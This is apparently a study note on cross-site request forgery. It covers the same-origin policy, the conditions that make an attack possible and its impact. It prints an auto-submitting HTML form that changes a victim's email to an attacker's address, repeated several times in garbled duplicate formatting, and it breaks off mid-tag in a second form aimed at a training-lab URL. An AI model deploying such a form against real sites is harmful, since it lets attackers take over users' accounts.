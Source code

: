 *This information is only for the purposes of education and skills development. GET and POST are not acronyms.*

Cross site request forgery - Attacker circumvents security measures designed to prevent different websites from interfering with one another, a measure called same origin policy. 

**What:** User persuaded into making an action/change that results in unintentional action. For instance, an attacker creates payload by editing email address change query. When potential victim changes email address, it changes to an email address intended by the attacker instead of the unsuspecting user.

**How:** Three conditions must exist. 
1) Actions such as user changing password, email address or daily usage is exploited by attacker. 
2) Cookie-based session handling to identify user making requests. Also works for HTTP Basic authentication and certificate-based authentication mechanisms as both identify user.
3) Query contains predictable parameters, i.e, should follow some standard or be guessable. 

**Impact**: Attacker manages to gain control of user's account and data. If the user has admin privileges, attacker gains control of entire web application.

**Example:** Attacker finds that all conditions for CSRF are being met for a vulnerable website. As such, they construct a webpage containing a form for changing email address. For instance: 

<html> 
	<body> 
		<form action="https://vulnerable-website.com/email/change" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> <script> document.forms[0].submit(); </script> </body> </html>
<html> 
	<body> 
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
		<input type="hidden" name="email" value="pwned@evil-user.net" /> </form> <script> document.forms[0].submit(); </script> </body> </html>
<html> <body> <form action="https://vulnerable-website.com/email/change" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> <script> document.forms[0].submit(); </script> </body> </html><html> <body> <form action="https://vulnerable-website.com/email/change" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> <script> document.forms[0].submit(); </script> </body> </html>
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
`<html>`
    `<body>`
        `<form action="https://vulnerable-website.com/email/change" method="POST">`
            `<input type="hidden" name="email" value="pwned@evil-user.net" />`
        `</form>`
        `<script>`
            `document.forms[0].submit();`
        `</script>`
    `</body>`
`</html>`

When a logged in user visits this page, as with any action on the web a HTTP request is triggered. 

**To Launch Attack**: Use CSRF PoC generator on Burp Suite to generate html such as above. Manual creation of html cumbersome but possible:

<html>
	<body>
		<h1>Hello World!</h1>
		<form action=
https://0aef003504f0b79280843afa002400a1.web-security-academy.net/my-account/change-email